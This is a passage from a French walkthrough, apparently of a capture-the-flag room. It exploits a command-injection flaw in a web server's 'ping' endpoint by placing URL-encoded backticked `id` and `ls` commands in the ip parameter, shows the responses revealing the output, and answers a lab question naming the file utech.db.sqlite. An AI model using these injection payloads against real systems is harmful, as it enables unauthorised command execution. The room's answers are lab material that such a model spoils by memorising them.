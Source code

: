```bash
```

Parfait ! Nous avons donc trouvé le paramètre correspondant.

On comprend aussi la fonction de l’endpoint `ping` qui permet enfaite d’effectuer un ping du serveur web vers une adresse IP donnée.

## Exploitation

Ce genre d’endpoint peuvent être vulnérables aux injections de commandes.

Essayons d’en effectuer une !

```bash
curl -i "http://target:8081/ping?ip=127.0.0.1%60id%60"
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 61
ETag: W/"3d-2J2mX1i3I4uQhsVi8ABaq24IgPw"
Date: Sun, 14 Sep 2025 09:56:26 GMT
Connection: keep-alive

ping: groups=1002(www): Temporary failure in name resolution
```

Et voilà ! Nous avons réussi à exploiter une vulnérabilité de type injection de commandes !

À noter que j’ai dû encoder l’URL  à l’aide de Cyberchef ([CyberChef](https://gchq.github.io/CyberChef/)) en encodage URL afin qu’il n’y est pas d’erreur de syntaxe.

Jetons un oeil aux fichiers présents :

```bash
curl.exe -i "http://target:8081/ping?ip=127.0.0.1%60ls%60"
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 49
ETag: W/"31-HlSQypQjJ8bvYzsasjt4yTZkt90"
Date: Sun, 14 Sep 2025 17:57:06 GMT
Connection: keep-alive

ping: utech.db.sqlite: Name or service not known
```

### Q6 - Il y a une base de données qui traîne, quel est son nom de fichier ?

Réponse : `utech.db.sqlite`

Nous avons donc trouvé un fichier de base de données SQLite nommé : `utech.db.sqlite`.

Étant donné que nous utilisons des commandes simples via l’injection de commandes, nous ne pouvons pas ouvrir proprement la base de données.
